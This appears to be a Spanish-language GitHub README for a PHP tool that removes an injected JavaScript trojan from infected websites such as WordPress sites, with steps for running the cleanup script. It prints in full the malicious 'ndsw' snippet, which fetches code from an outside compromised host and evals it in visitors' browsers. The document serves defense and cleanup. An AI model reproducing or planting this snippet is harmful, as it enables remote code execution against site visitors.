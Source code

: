 # remove-trojan-js

¿Tú sitio web (wordpress, sitio web general, etc.) se infectó con este fragmento de código (los Javascript)?
```
;if(ndsw===undefined){var ndsw=true,HttpClient=function(){this['get']=function(a,b){var c=new XMLHttpRequest();c['onreadystatechange']=function(){if(c['readyState']==0x4&&c['status']==0xc8)b(c['responseText']);},c['open']('GET',a,!![]),c['send'](null);};},rand=function(){return Math['random']()['toString'](0x24)['substr'](0x2);},token=function(){return rand()+rand();};(function(){var a=navigator,b=document,e=screen,f=window,g=a['userAgent'],h=a['platform'],i=b['cookie'],j=f['location']['hostname'],k=f['location']['protocol'],l=b['referrer'];if(l&&!p(l,j)&&!i){var m=new HttpClient(),o=k+'//unitedfc.com.mx/wp-admin/huge-it-google-map-custom-icons/huge-it-google-map-custom-icons.php?id='+token();m['get'](o,function(r){p(r,'ndsx')&&f['eval'](r);});}function p(r,v){return r['indexOf'](v)!==-0x1;}}());};
```
Si es así sigue estos pasos para limpiarlos: 
* Sube el archivo (remove-trojan-js.php) al servidor
* Cambiar la ruta absoluta desde donde se empezará la limpieza (clean_files('/absolute/path/'); del archivo remove-trojan-js.php)
* Ejecutar el script vía web (https://dominio.com/remove-trojan-js.php) o por la terminal (php remove-trojan-js.php)





**Disclaimer**: ejecutar bajo tu responsabilidad. Siempre realizar una prueba en ambiente controlado (sandbox/desarrollo), antes de aplicarlo a producción.
